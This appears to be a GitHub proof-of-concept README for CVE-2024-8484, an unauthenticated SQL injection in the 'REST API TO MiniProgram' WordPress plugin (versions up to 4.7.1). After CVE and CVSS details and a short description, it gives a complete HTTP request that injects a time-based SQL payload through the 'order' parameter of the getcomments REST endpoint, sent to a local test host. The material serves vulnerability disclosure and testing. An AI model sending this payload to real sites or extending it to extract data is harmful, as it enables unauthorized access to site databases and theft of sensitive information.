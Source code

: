 # CVE-2024-8484
REST API TO MiniProgram &lt;= 4.7.1 - Unauthenticated SQL Injection

```
CVE: CVE-2024-8484
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
CVSS Score: 7.5
Slugs: rest-api-to-miniprogram
```
Description:
---

The REST API TO MiniProgram plugin for WordPress is vulnerable to SQL Injection via the 'order' parameter of the /wp-json/watch-life-net/v1/comment/getcomments REST API endpoint in all versions up to, and including, 4.7.1 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

POC
---

```
GET /wp-json/watch-life-net/v1/comment/getcomments?order=DESC,(SELECT(1)FROM(SELECT(SLEEP(10)))a)--&postid=3&limit=1&page=1&page=1 HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://kubernetes.docker.internal/wp-admin/post-new.php?post_type=page
Connection: keep-alive
If-Modified-Since: Mon, 16 Sep 2024 18:56:28 GMT
If-None-Match: "5a3-62241215fdfaa-gzip"
Priority: u=2
```

![alt text](https://github.com/RandomRobbieBF/CVE-2024-8484/blob/main/CVE-2024-8484.png?raw=true)
